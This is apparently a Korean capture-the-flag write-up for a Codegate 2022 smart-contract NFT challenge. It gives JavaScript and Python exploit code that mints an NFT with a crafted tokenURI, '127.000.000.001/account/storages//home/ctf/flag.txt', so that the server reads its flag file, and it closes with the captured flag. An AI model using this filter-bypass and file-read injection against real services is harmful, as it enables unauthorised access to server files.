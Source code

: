 해당 함수만 쓰면서 익스를 짜야한다.

Part 1

```jsx
const abi = require("./abi.json")
const Web3 = require("web3")

const w3 = new Web3("<http://13.124.97.208:8545>")

const contractAddress = '0x4e2daa29B440EdA4c044b3422B990C718DF7391c';
const PUBLIC_KEY = '<wallet addr>';
const PRIVATE_KEY = '<wallet key>';

const nftContract = new w3.eth.Contract(abi, contractAddress)

async function mintNFT(tokenURI) {
    const nonce = await w3.eth.getTransactionCount(PUBLIC_KEY, 'latest');
    const tx = {
        'from': PUBLIC_KEY,
        'to': contractAddress,
        'nonce': nonce,
        gas: 4000000,
        gasPrice: '1000000000',
        'data': nftContract.methods.mintNft(tokenURI).encodeABI()
    };
    const signedtx=await w3.eth.accounts.signTransaction(tx, PRIVATE_KEY)
    console.log(signedtx["rawTransaction"])
}
mintNFT("127.000.000.001/account/storages//home/ctf/flag.txt")

```

Part 2

```python
from web3 import Web3

w3 = Web3(Web3.HTTPProvider('<http://13.124.97.208:8545>'))
w3.eth.send_raw_transaction("<signed raw contract>")
```

FLAG : `codegate2022{a8497459276143c575f88c0977a5713b9585d36a2ceda2ccb9633af809dfae00b72d90eb7e2eb2ce54bf106faf48cc096a177b02a26901dca684397c71}`
